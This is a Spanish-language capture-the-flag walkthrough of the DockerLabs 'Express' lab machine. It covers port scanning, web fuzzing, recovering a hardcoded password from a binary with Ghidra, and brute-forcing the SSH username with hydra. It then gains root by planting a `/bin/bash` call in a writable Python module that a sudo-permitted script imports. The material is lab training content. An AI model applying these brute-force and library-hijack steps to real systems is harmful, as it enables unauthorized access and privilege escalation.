



Máquina **Express** de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio



# Reconocimiento

Comenzaremos con un escaneo de `nmap`:

```css
nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Jan 11 10:06:20 2025 as: nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2025-01-11 10:06:20 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7a:88:11:76:1d:4b:b3:31:95:6d:90:86:87:ef:3b:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMuWxF0RriwYfieEQn+T9SZlrcxMgBg2H+SpTnxQFFjaNRhBebDOM/cYccPO8bxLoK7HxJm4+t8xYp3TCMcct1g=
|   256 26:f9:fb:7a:c7:be:cf:da:99:39:18:f5:bd:56:d5:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILUhTh8Y0DHstccxORIRDezgqBRJkdJ/BIt2hTRPsA1z
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mi Empresa - Soluciones Innovadoras
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 10:06:28 2025 -- 1 IP address (1 host up) scanned in 8.53 seconds
```

Tenemos 2 puertos abiertos:

•`Puerto 22: OpenSSH 9.6p1 Ubuntu`

•`Puerto 80: Apache httpd 2.4.58`

### Puerto 80

Al entrar en la web no veo nada interesante por lo que paso directamente a hacer fuzzing con `feroxbuster`:

```css
feroxbuster -u "http://172.17.0.2/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

luego de esperar un rato, pruebo en poner el dominio "express.dl" en el `/etc/hosts` y encuentro una página distinta.

Al realizar fuzzing, encuentro una carpeta llamada "binary", la cual contiene un binario llamado "game", este me lo descargo y veo que es un ejecutable de 64 bites.

### Ingeniería inversa

En esta parte, decido depurar el binario usando `ghidra`, y veo que en la función main hace 100 preguntas sobre un numero aleatorio, y a este lo genera usando una semilla basada en tiempo. En este punto podriamos hacer 2 cosas:

```css
1. Crear un exploit que adivine todos los numeros
2. Revisar la función "hidden_key" que se encuentra en la función main para encontrar una posible contraseña
```

en mi caso hice las 2 xD pero solo voy a mostrar la 2, ya que es lo mas sencillo.

Cuando estemos en la función hidden_key, veremos lo siguiente:



como vemos en "local_28", "local_20", etc. Estas variables contienen la contraseña al inverso, por lo que luego de extraer el texto de todas, me encuentro con la siguiente contraseña:

```css
P@ssw0rd!#--025163fhusGNFE
```

# Intrusión

Ahora solo nos quedaría usar `hydra` para intentar adivinar el usuario:

```css
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p 'P@ssw0rd!#--025163fhusGNFE' 172.17.0.2 ssh
```


ya tenemos credenciales.

# Escalada De Privilegios

### Admin

Si ejecutamos `sudo -l`, veremos que podemos ejecutar como cualquier usuario (incluyendo root) un script de python, el cual no tiene una función muy interesante pero importa varias cosas, por lo que por ahi podríamos intentar escalar. Luego de revisar cada uno:

```css
admin@dockerlabs:/opt$ ls -l /usr/lib/python3.12/os.py
-rw-r--r-- 1 root root 39786 Nov  6 19:32 /usr/lib/python3.12/os.py
admin@dockerlabs:/opt$ ls -l /usr/lib/python3.12/random.py
-rw-r--r-- 1 root root 34683 Nov  6 19:32 /usr/lib/python3.12/random.py
admin@dockerlabs:/opt$ ls -l /usr/lib/python3.12/pytest.py
-rwxrwxr-x 1 root admin 1 Jan 10 17:08 /usr/lib/python3.12/pytest.py
admin@dockerlabs:/opt$ 
```

veo que "pytest.py" tenemos permisos de escritura, ya que estamos en su grupo, por lo lo editaremos con nano poniendo el siguiente contenido:

```python
import os
os.system("/bin/bash")
```

luego ejecutamos el script

```css
sudo python3 /opt/script.py
```

y ya seremos root.

### Root



Gracias por leer ;)